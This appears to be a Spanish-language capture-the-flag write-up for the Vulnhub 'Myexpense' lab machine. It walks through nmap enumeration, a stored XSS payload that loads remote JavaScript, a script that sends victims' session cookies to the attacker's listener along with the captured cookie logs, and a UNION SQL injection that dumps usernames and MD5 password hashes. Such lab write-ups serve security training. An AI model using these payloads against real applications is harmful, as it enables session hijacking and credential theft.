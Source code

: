```yaml
---
title: Myexpense Writeup Vulnhub
published: true
---
```


# Historia

La máquina "Myexpense" nos pone en la situación de que somos "Samuel Lamotte" y acabamos de ser despedido de la empresa "Furtura Business Informatique". Lamentablemente, debido a su precipitada marcha, no ha tenido tiempo de validar el informe de gastos de su último viaje de negocios, que aún asciende a 750 € correspondientes a un vuelo de ida y vuelta a su último cliente.

# Enumeración

Empezamos detectando en que IP está la máquina que nos hemos descargado

```bash
fping -a -g 192.168.1.0/24 2>/dev/null
```

Y en mi caso está en la IP 192.168.1.80 

Ahora ya podemos escanear con nmap

```nmap
nmap -sCV -T4 192.168.1.80 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 16:12 CEST
Nmap scan report for 192.168.1.79
Host is up (0.00026s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
| http-robots.txt: 1 disallowed entry 
|_/admin/admin.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds
```

Gracias a la enumeración de nmap podemos ver que existe /admin/admin.php

![1a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/289cf8a7-e11d-4310-85ed-0355ed9a7ef6)

Si le damos al boton de "Inactive" para cambiarlo a "Active" pero no podemos porque lo tiene que hacer un administrador

![2a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/b12c1aec-bdb0-42de-be93-615d92309251)

Probamos a iniciar sesión pero la cuenta de "slamotte" esta inactiva, asi que tendremos que crear una cuenta nueva. Dentro de la pagina para crear una cuenta nueva podemos probar a realizar un XSS. Lo que vamos a hacer es crear un XSS donde llame a la petición "192.168.1.80/admin/admin.php?id=11&status=active"

El codigo javascript que usaremos será el siguiente:

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.79/admin/admin.php?id=11&status=active');
request.send();
```

Ponemos el siguiente XSS en el lugar de "Firstname" y "Lastname"

```javascript
<script src="http://192.168.1.76/eskere.js"></script>
```

Abrimos un servidor http

```python
python3 -m http.server 80
```

Para poder mandarlo tendremos que borrar la etiqueta "disabled=""".

![3a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/1a098021-e152-4704-8f95-1f406bfd7530)

Después de un rato podremos ver lo siguiente

```python
python3 -m http.server 80        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.80 - - [30/Jul/2023 17:42:13] "GET /eskere.js HTTP/1.1" 200 -
```

Y podremos acceder a la cuenta de Samuel y podremos mandar la solicitud del dinero

![4a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/2684c305-69b5-42a5-bfcc-9efcf9d25773)

Lo mandamos y mirando la página web podemos encontrar en nuestro perfil que nuestro manager es "Manon Riviere". Para ello tendremos que modificar el script que teníamos antes pero en vez de mandar una petición, tendremos que capturar la cookie del usuario de "Manon Riviere"

(Cambiamos el puerto para que no cause problemas con el anterior script que habíamos creado)

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.1.79:4444/?cookie=' + document.cookie);
request.send();
```

```python
python3 -m http.server 4444

Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.76 - - [30/Jul/2023 21:18:12] "GET /?cookie=PHPSESSID=01mm6p8v9vrrqar6omtmf9qoc2 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:17] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:17] "GET /?cookie=PHPSESSID=f8ssrjl36iljv0d3ijkvrj4hu2 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /?cookie=PHPSESSID=lais5ikdk3o7s4rju48lj729l5 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:22] "GET /?cookie=PHPSESSID=lais5ikdk3o7s4rju48lj729l5 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /?cookie=PHPSESSID=950elpe0sss3vrjuc9ijntt8a7 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:25] "GET /?cookie=PHPSESSID=950elpe0sss3vrjuc9ijntt8a7 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /eskere2.js HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /?cookie=PHPSESSID=s9ldcc3i4nh0vjlihhl87f4e81 HTTP/1.1" 200 -
192.168.1.81 - - [30/Jul/2023 21:18:26] "GET /?cookie=PHPSESSID=s9ldcc3i4nh0vjlihhl87f4e81 HTTP/1.1" 200 -
```

Probamos cada una de las cookies hasta que nos podamos cambiar de usuario ha "Manon Riviere"

![5a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/6cd1f6ff-dc82-427b-807e-eab0e1b66fb1)

Entramos en la pestaña "Expense reports" y permitimos el pago. Como paso final tenemos que llegar a ser "Paul Bauduoin" que es un "Financial approver". En la pestaña de "Rennes" podemos ver que si añadimos una ' en la url podemos ver que aparece el siguiente error.

![6a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/35d5449f-929f-42c3-a611-02a643f7cc01)

Asi que utilizando XSS otra vez pero en la url podremos sacar las contraseñas de los usuarios de la base de datos con la siguiente sintasis.

```sql
http://192.168.1.81/site.php?id=2 union select 1, group_concat(username,0x3a, password) from user-- -
```

![7a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/ac3c1d51-5a0a-4e3a-b048-5371fe615535)

copiamos todo el contenido en un bloc de notas y quedaría así

```
afoulon:124922b5d61dd31177ec83719ef8110a
pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
deviltrigger:3f2c8111d6a0cfd65cf04dcf466014ca
```

Continuamos desencriptando la contraseña de "pbaudouin" que está en md5. Iniciamos sesión con su usuario y contraseña y finalmente podremos validar el pago. Una vez validado podemos volver a la cuenta de "slamotte" conseguiremos la flag de la máquina.

![8a](https://github.com/dtrigger289/dtrigger289.github.io/assets/109216235/6c857bb7-d313-44b7-91bb-cfe579335bf5)
